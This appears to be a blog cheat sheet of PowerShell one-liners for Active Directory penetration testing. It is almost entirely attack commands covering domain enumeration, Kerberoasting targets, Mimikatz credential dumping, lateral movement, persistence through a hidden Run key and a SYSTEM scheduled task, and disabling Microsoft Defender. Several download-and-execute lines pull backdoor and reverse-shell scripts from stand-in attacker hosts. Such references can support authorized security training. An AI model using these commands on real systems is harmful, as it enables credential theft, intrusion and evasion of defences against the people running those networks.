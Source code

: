 ```yaml
---
title: "Power-S-Hell"
date: 2025-04-10 +0530
categories: [Cyber-Security]
tags: [powershell, power, hell, history, file, active-directory, windows, recon, ad, lateral-movement, persistence, evasion]
order: 4
---
```


This is a collection of PowerShell one-liners for **Active Directory (AD) pentesting**, including recon, enumeration, lateral movement, persistence, evasion, and payload delivery.

## 🧾 PowerShell History File

```
C:\Users\user01\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

Stored command history — often contains creds, recon, or tooling clues.

## 🏷️ Whoami & Token Info

```powershell
whoami /all
whoami /priv
Get-ProcessTokenPrivilege
```

View current user identity, privileges, and token info.

## 🧠 Domain Info

```powershell
(Get-WmiObject Win32_ComputerSystem).Domain
(Get-ADDomain).Forest
(Get-ADDomainController -Discover).Name
```

Get basic domain and forest information.

## 🔍 User Enumeration

```powershell
Get-ADUser -Filter * -Properties DisplayName,Description | select Name,DisplayName,Description
net user /domain
```

Enumerate domain users with additional context.

## 🖥️ Computer Enumeration

```powershell
Get-ADComputer -Filter * | Select-Object Name,OperatingSystem,LastLogonDate
```

List domain-joined systems with OS and last login info.

## 🏠 Group Memberships

```powershell
net group "Domain Admins" /domain
Get-ADGroupMember "Domain Admins"
```

Check domain admin members.

## 🔐 Password Policy & Trusts

```powershell
(Get-ADDefaultDomainPasswordPolicy)
Get-ADTrust -Filter *
```

Inspect domain password requirements and trust relationships.

## 🔎 Current Session Info

```powershell
qwinsta
query user
```

See who’s currently logged in.

## 💻 Network Shares Discovery

```powershell
net view /domain
net view \\targethost
Invoke-ShareFinder -Verbose
```

Enumerate visible network shares.

## 📁 Share Access Test

```powershell
Invoke-CheckLocalAdminAccess -ComputerName targethost
Invoke-SmbEnum -ComputerName targethost
```

Check access rights and share contents remotely.

## 🔓 Kerberoasting Candidates

```powershell
Get-ADUser -Filter * -Properties ServicePrincipalName | Where-Object { $_.ServicePrincipalName -ne $null } | Select SamAccountName, ServicePrincipalName
```

Find SPN-enabled accounts for ticket extraction.

## 📬 Mailbox Discovery

```powershell
Get-ADUser -Filter * -Properties mail | Where-Object {$_.mail -ne $null} | Select Name, mail
```

List domain users with email addresses.

## 🧠 BloodHound Ingestors (SharpHound)

```powershell
Invoke-WebRequest -Uri http://<attacker>/SharpHound.exe -OutFile SharpHound.exe
.\SharpHound.exe -c All
```

Collect AD data for analysis in BloodHound.

## 🔑 Dump Hashes (if Admin)

```powershell
Invoke-Mimikatz -Command '"privilege::debug" "sekurlsa::logonpasswords"'
```

Dump logon credentials from memory.

## 🕵️‍♂️ DNS + Reverse Lookup

```powershell
Resolve-DnsName target.domain.local
[System.Net.Dns]::GetHostEntry("192.168.1.100")
```

Identify IPs and names within the domain.

## 📦 Remote Payload Execution

```powershell
IEX (New-Object Net.WebClient).DownloadString('http://attacker/payload.ps1')
```

Load and run remote scripts in memory.

## 🔀 Lateral Movement

```powershell
Invoke-WMICommand -ComputerName target -Command "whoami"
Invoke-Command -ComputerName target -ScriptBlock { hostname }
Enter-PSSession -ComputerName target
Invoke-SMBExec -Target target -Command "ipconfig /all"
```

Remotely execute commands or enter sessions.

## 🧬 Persistence

```powershell
New-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "Update" -Value "powershell.exe -WindowStyle Hidden -Command 'IEX (New-Object Net.WebClient).DownloadString(`'http://attacker/payload.ps1`')'"
```

Add script to startup via registry key.

```powershell
schtasks /create /tn "Updater" /tr "powershell -WindowStyle Hidden -ExecutionPolicy Bypass -File update.ps1" /sc minute /mo 5 /ru SYSTEM
```

Create recurring scheduled task for persistence.

## 🎭 Defender Evasion

```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
Add-MpPreference -ExclusionPath "C:\Users\Public"
powershell -exec bypass -w hidden -EncodedCommand <base64payload>
```

Disable Defender and hide payload execution.

## 💥 Custom Payload Execution

```powershell
IEX (New-Object Net.WebClient).DownloadString('http://attacker.com/backdoor.ps1')
powershell -nop -w hidden -c "IEX(New-Object Net.WebClient).DownloadString('http://attacker.com/rev.ps1')"
Invoke-Expression (New-Object Net.WebClient).DownloadString('http://attacker/shell.ps1')
```

Alternate ways to launch remote payloads.